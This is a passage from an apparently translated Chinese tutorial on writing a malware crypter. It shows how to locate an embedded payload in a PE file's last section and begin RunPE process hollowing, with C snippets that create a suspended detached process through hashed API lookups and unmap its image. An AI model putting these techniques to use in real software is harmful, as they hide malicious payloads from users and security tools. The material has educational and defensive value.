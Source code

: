 **GetPayload**函数的任务非常简单。该函数可以得到一个指针，该指针指向可执行模块在内存中的基址，然后解析PE头部结构，从中我们可以得到一些必要的信息来定位我们寻找的那些节。我们可以使用IMAGE_FIRST_SECTION宏，计算由NT头部提供的偏移信息来找到第一个section。**IMAGE_FIRST_SECTION**宏的代码如下所示：



```
#define IMAGE_FIRST_SECTION( ntheader ) ((PIMAGE_SECTION_HEADER)        
    ((ULONG_PTR)(ntheader) +                                            
     FIELD_OFFSET( IMAGE_NT_HEADERS, OptionalHeader ) +                 
     ((ntheader))-&gt;FileHeader.SizeOfOptionalHeader   
    ))
```

与数组访问过程类似，利用第一个section的头部地址，我们可以根据section的数量计算偏移量，找到最后一个section的头部。一旦找到最后一个section的头部后，我们可以通过**VirtualAddress**字段找到相对虚拟地址（请记住我们面对的是内存中的可执行文件，而不是原始的文件），该地址与ImageBase相加后就能得到绝对虚拟地址。

**4.2 RunPE/进程Hollow技术（Process Hollowing）**

接下来我们需要模拟Windows映像加载器，将载荷加载到新进程的虚拟内存中。首先，我们需要一个进程，该进程是载荷的写入对象，我们可以使用**CreateProcess**来创建这个进程，在创建进程时指定CREATE_SUSPENDED标志，这样我们就能把进程的可执行模块换成我们自己的载荷。



```
// process info
STARTUPINFO si;
PROCESS_INFORMATION pi;
MyMemset(&amp;pi, 0, sizeof(pi));
MyMemset(&amp;si, 0, sizeof(si));
si.cb = sizeof(si);
si.dwFlags = STARTF_USESHOWWINDOW;
si.wShowWindow = SW_SHOW;
// first create process as suspended
pfnCreateProcessA fnCreateProcessA = (pfnCreateProcessA)GetKernel32Function(0xA851D916);
fnCreateProcessA(szFileName, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED | DETACHED_PROCESS, NULL,NULL, &amp;si, &amp;pi);
```

我们需要使用原始程序的文件来创建新进程。新创建进程的当前状态如下所示（假设原始程序以及载荷使用同样的基址）：

[![](https://p3.ssl.qhimg.com/t0128b9f765236ab296.png)](https://p3.ssl.qhimg.com/t0128b9f765236ab296.png)

需要注意的是，这里我们可能需要使用**DETACHED_PROCESS**标志，这样创建出的进程不是一个子进程，也就是说，如果原始程序所对应的进程结束运行，我们创建的进程也不会被终止。我们可以将wShowWindow字段的值设为SW_HIDE，但这里我会把它设置为SW_SHOW，以便显示载荷进程成功执行的结果。

为了能将载荷写入进程中，我们需要将正在使用的已分配的所有内存unmap掉，只要将基地址作为参数传递给**ZwUnmapViewOfSection**函数即可。



```
// unmap memory space for our process
pfnGetProcAddress fnGetProcAddress = (pfnGetProcAddress)GetKernel32Function(0xC97C1FFF);
pfnGetModuleHandleA fnGetModuleHandleA = (pfnGetModuleHandleA)GetKernel32Function(0xB1866570);
pfnZwUnmapViewOfSection fnZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)fnGetProcAddressfnGetModuleHandleA(get_ntdll_string()), get_zwunmapviewofsection_string());
fnZwUnmapViewOfSection(pi.hProcess, (LPVOID)pinh-&gt;OptionalHeader.ImageBase);
```

新进程被掏空后的示意图如下：
